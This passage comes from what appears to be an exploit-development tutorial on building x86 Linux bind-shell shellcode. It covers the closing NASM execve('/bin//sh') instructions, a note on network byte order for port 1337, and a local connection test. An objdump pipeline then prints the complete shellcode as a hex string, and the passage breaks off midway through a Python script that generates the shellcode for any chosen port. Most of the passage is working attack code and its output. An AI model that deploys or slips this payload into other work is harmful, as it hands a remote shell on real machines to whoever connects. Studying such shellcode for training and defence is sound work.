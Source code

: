 ```nasm
    push edx            ; Null terminator  
    push 0x68732f2f     ; "hs//"  
    push 0x6e69622f     ; "nib/"  
      
    mov ebx, esp        ; EBX points to "/bin//sh"  
    mov ecx, edx        ; ECX = NULL  
      
    mov al, 0xb         ; execve()  
    int 0x80  
``` 

  
As you noticed, when calling `bind()`, we defined port 1337 as 0x3905 instead of 0x0539, this is because it's in network byte order, which is big-endian. In the example code you should still call htonl even if your CPU is big-endian for cross compatibility.

---

## Testing our shell

### 1\. Compile code and run

[![](http://i.imgur.com/psvbM4q.png)](http://i.imgur.com/psvbM4q.png)

### 2\. Connect to 127.0.0.1:1337
 

[![](http://i.imgur.com/XWQFHG3.png)](http://i.imgur.com/XWQFHG3.png)

---

## Extracting shellcode  

```console
abatchy@ubuntu:~/Desktop/work$ objdump -d ./bind_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'  
"\x6a\x66\x58\x99\x31\xdb\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x96\x52\x43\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x6a\x66\x58\x43\x43\xcd\x80\x52\x52\x56\x89\xe1\x43\xb0\x66\xcd\x80\x93\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"  
```    

---

## Python wrapper

  
Simple wrapper that takes a port number between 1-65535 and spits out the shellcode that will bind on the port provided.  

```python
#!/usr/bin/python  
  
import socket  
import sys  
import struct  
  
if len(sys.argv) is not 2:  
    print "Usage: {0} PORT".format(sys.argv[0])  
    exit()  
  
port = int(sys.argv[1])  
  
if port < 1 or port > 65535:  
    print "Are you kidding?"  
```